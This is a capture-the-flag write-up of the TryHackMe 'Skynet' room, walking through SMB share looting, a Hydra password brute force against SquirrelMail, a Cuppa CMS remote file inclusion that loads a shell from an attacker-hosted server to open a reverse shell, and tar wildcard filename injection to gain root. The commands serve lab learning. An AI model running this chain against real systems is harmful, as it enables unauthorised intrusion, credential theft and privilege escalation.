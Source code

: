 # Write-up: Skynet [TryHackMe](https://tryhackme.com/room/skynet)

## Description
The Skynet room focuses on exploiting SMB shares and a vulnerable web CMS to gain system access, followed by privilege escalation to root. The main attack vectors were Cuppa CMS Remote File Inclusion (RFI) and a misconfigured cron job using tar.

## Port Scanning
```python
nmap -p- -A <IP>
```
Open ports:
```python
22/tcp SSH

80/tcp HTTP (Apache)

110/tcp POP3

139/tcp SMB (Samba)

143/tcp IMAP

445/tcp SMB (Samba)
```
## Web Enumeration
Directory Brute-force:
```python
gobuster dir -u http://<IP> -w /usr/share/wordlists/dirb/common.txt -x php,html,txt
```
Found ```/squirrelmail``` — a webmail interface with login, but no useful public exploits. We moved on to enumerating SMB shares.
## SMB Enumeration
Listing SMB shares:
```python
smbclient -L //<IP> -N
```
Interesting shares:

* anonymous — accessible without authentication

* milesdyson — requires credentials

Inside anonymous, we found:

* ```attention.txt```

Directory ```logs/``` with ```log1.txt```, ```log2.txt```, ```log3.txt```

In log1.txt we found a list of passwords.
```python
smbclient //10.10.84.128/anonymous -U "nothing" -c "recurse; prompt; mget *"
```

## Obtaining Credentials
We brute-forced SquirrelMail login using Hydra:
```python
hydra -l milesdyson -P logs/log1.txt <IP> http-post-form "/squirrelmail/src/redirect.php:login_username=^USER^&secretkey=^PASS^:Unknown user or password incorrect."
```
Once logged in, we retrieved the SMB password for milesdyson from the inbox.
```python
smbclient //10.10.84.128/milesdyson -U milesdyson
```
We found the ```notes/important.txt``` file, revealing a hidden directory:
```python
mget important.txt
```
```python
/45kra24zxs28v3yd/
```
## Exploiting Cuppa CMS
Discovered ```/45kra24zxs28v3yd/administrator``` — running Cuppa CMS.

We exploited a Remote File Inclusion (RFI) vulnerability to execute our reverse shell:

1. Start HTTP server:
```python
python3 -m http.server 8000
```
2. Listen for reverse shell:
```python
nc -lvnp 4444
```
3. Trigger RFI exploit:

```python
http://<target_ip>/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://<attacker_ip>:8000/shell.php
```
Reverse shell as www-data obtained.

## Privilege Escalation
Checking scheduled cron jobs:
```python
cat /etc/crontab
```
Found this:
```python
/home/milesdyson/backups/backup.sh
```
Contents:
```python
#!/bin/bash
cd /var/www/html
tar cf /home/milesdyson/backups/backup.tgz *
```
Vulnerability: tar with --checkpoint-action=exec allows code execution.

## Exploitation:

We prepared malicious files:
```python
echo -e '#!/bin/bash\nchmod +s /bin/bash' > /var/www/html/root_shell.sh
touch "/var/www/html/--checkpoint-action=exec=sh root_shell.sh"
touch "/var/www/html/--checkpoint=1"
```
After waiting for the cron job, we got a SUID bash:
```python
/bin/bash -p
```
Now we are root.
## Conclusion
Retrieve the flags:
```python
cat /home/milesdyson/user.txt
cat /root/root.txt
```

